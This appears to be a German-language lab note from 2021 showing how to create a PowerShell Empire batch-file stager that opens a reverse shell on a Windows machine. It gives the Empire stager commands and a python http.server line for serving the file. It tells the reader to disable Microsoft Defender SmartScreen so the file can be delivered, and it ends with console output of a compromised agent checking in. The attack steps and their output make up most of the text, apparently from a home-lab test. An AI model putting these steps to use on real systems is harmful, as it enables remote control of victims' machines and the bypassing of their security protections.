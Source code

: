 

# launcher_bat Test 29.05.2021

Batchfile das unter Windows in der Kommandozeile gestartet werden kann und eine Reverse Shell öffnet.

[Infos](https://null-byte.wonderhowto.com/how-to/use-powershell-empire-getting-started-with-post-exploitation-windows-hosts-0178664/)

```
usestager windows/launcher_bat

```

`help` `info`

```
(Empire: stager/windows/launcher_bat) > set Listener ListenerTest
(Empire: stager/windows/launcher_bat) > execute
```



```bash
cd /tmp
python3 -m http.server 8080
```

MS Edge

---

### To turn SmartScreen on or off in the new Microsoft Edge:

1. Select **Settings and more** > **Settings** > **Privacy & services** .
2. Scroll down to **Services**, and turn **Microsoft Defender SmartScreen** on or off.

Einstellungen > Datenschutz Suche und Dienste > Sicherheit > Microsoft Defender SmartScreen ausschalten

---

Auf Windows `launcher.bat` über die Kommandozeile starten (Doppelclick wird von Windows verhindert)

Empire meldet:

```
(Empire: agents) > 
[*] Sending POWERSHELL stager (stage 1) to 192.168.178.82                                                                            
[*] New agent 4NE5196G checked in
[+] Initial agent 4NE5196G from 192.168.178.82 now active (Slack)
[*] Sending agent (stage 2) to 4NE5196G at 192.168.178.82
```



```
(Empire: agents) > agents

[*] Active agents:
                                                                                                                                     
 Name     La Internal IP     Machine Name      Username                Process            PID    Delay    Last Seen            Listener
 ----     -- -----------     ------------      --------                -------            ---    -----    ---------            ----------------
 4NE5196G ps 192.168.178.82  DESKTOP-KB6QKG7   DESKTOP-KB6QKG7\test    powershell         5632   5/0.0    2021-05-29 14:21:10  ListenerTest    

(Empire: agents) >
```